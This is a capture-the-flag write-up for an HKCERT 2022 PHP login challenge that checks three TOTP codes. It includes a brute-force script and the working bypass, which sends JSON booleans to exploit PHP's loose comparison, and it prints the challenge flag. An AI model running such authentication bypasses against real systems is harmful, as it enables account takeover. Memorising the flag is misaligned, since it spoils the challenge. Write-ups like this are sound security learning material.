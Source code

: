 

---

## Understanding the Repo.

docker: 
* base :php:8.1.12-apache-bullseye
* service: otp
* port 8901:80


Flag's given in the dockerfile? `hkcert22{mistakes-off-the-page}`

---

Ask Grok AI A brief explanation of the php files as I have no experience with php.

1. `index.php:`
Presents a login form with fields for username, password, and three OTP fields (otp1, otp2, otp3).  Submits a JSON POST request to /login.php with the form data. Displays success or error messages based on the server’s response.

2. login.php:
Handles login requests via JSON input ($_DATA).  Contains a hardcoded user database ($USER_DB) with one user: Username: admin Password hash: password_hash("admin", PASSWORD_DEFAULT) Three TOTP secret keys: key1, key2, key3 (generated dynamically using Google2FA::generate_secret_key()).  Validates: Username existence.  Password using password_verify.  Three OTPs using Google2FA::verify_key.  Returns the flag (from $_ENV['FLAG'] or a fake flag) if all checks pass.

3. google2fa.php:
Implements TOTP authentication based on the Google Authenticator algorithm.  Key functions: generate_secret_key: Creates a 16-character Base32 secret key.  get_timestamp: Returns the current Unix timestamp divided by 30 (TOTP interval).  base32_decode: Decodes a Base32 string to binary.  oath_hotp: Generates a 6-digit OTP from a binary key and timestamp.  verify_key: Checks if a provided OTP matches the expected OTP for a secret key, allowing a window of ±4 time steps.  oath_truncate: Extracts a 6-digit OTP from an HMAC-SHA1 hash.

4. jsonhandler.php:
Utility functions to parse JSON input and send JSON responses with error or success messages.  main.css: Styles the login form for a clean, centered UI.

---- 


## Trying Solutions

1. First start with common file paths for CTF. 
```
http://localhost:8901/flag
http://localhost:8901/flag.txt
http://localhost:8901/env
http://localhost:8901/info.php
http://localhost:8901/.env
```
Found no vulnerability. Either get 404 or 403.

2. Try the known credentials with arbitrary OTPs:
```
curl -X POST http://localhost:8901/login.php -H "Content-Type: application/json" -d '{"username":"admin","password":"admin","otp1":"000000","otp2":"000000","otp3":"000000"}'
```

Response: {"error":{"code":500,"message":"wrong otp1","data":"otp1"}}%  

3. Try different combinations of OTP including:
* empty OTP, omit OTP (just username and login), `null` as OTP

4. Maybe Brute Force OTP? But Most likely impossible since the keys seem to regenerate per request.

```python3
import requests
import json

url = "http://localhost:8901/login.php"
headers = {"Content-Type": "application/json"}
payload = {
    "username": "admin",
    "password": "admin",
    "otp1": "000000",
    "otp2": "000000",
    "otp3": "000000"
}

# Test a range of OTPs (e.g., 000000 to 999999)
for i in range(1000000):
    otp = f"{i:06d}"  # Pad to 6 digits
    payload["otp1"] = otp
    payload["otp2"] = otp
    payload["otp3"] = otp
    response = requests.post(url, headers=headers, data=json.dumps(payload))
    if "Congrats" in response.text:
        print("Success:", response.text)
        break
    else:
        print(f"Tried OTP {otp}: {response.text}")
```

5. Try Input Manipulation. (The json_decode function or Google2FA::verify_key might mishandle unexpected input types)

6. Check docker compose log for misconfiguration that can expose environmental variable (FLAG). 

7. Input Manipulation again with Booleans. 

** The issue seems to lie in the function `verify_key`

``` php
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
    $timeStamp = self::get_timestamp();
    if ($useTimeStamp !== true) $timeStamp = (int)$useTimeStamp;
    $binarySeed = self::base32_decode($b32seed);

    for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
        if (self::oath_hotp($binarySeed, $ts) == $key)   // Loose Comparison
            return true;
    return false;
}
```

Issue: 
```php
// in php language
"123456" == true   // → true
// should use === to disable type juggling ? 
```


## Exploit / Solution
```
curl -X POST http://localhost:8901/login.php -H "Content-Type: application/json" -d '{"username":"admin","password":"admin","otp1":true,"otp2":true,"otp3":true}' > response.txt && cat response.txt
```
